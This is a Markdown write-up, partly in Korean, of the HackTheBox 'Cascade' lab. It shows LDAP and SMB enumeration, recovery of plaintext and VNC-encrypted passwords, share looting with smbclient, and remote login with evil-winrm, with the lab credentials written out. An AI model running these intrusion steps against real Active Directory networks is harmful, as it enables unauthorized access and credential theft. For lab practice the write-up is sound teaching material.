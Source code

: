 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](/assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
Get-ADUser -identity s.smith -properties *
net user s.smith

# s.smith 로그인 시 실행되는 파일 찾기
dir C:\ -recurse -filter MapAuditDrive.vbs -ErrorAction SilentlyContinue
type C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs
type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
```

![](/assets/images/posts/2025-03-04-Cascade/4f2aa2c333a1674855e684e3995f3069_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/bdd8034515a299f96fba98278f6552b3_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/faab4f175aa18ad9e1a2ba1c12f52c6d_MD5.jpeg)

#### SMB Enum (s.smith Auth)
```bash
# smb re-enum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Audit$ -U 's.smith' --password='sT333ve2'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *

# db 내용 보기
cat RunAudit.bat
sqlitebrowser Audit.db
file CascAudit.exe
```
ArkSvc
BQO5l5Kj9MdErXx6Q6AGOw==
/snap/dotnet-sdk/255/packs/Microsoft.NETCore.App.Ref/8.0.12/analyzers/dotnet
![](/assets/images/posts/2025-03-04-Cascade/df502df7219d87e613d796e2f72e614b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/9e2c997ddba01c1a6a941702ea16119b_MD5.jpeg)
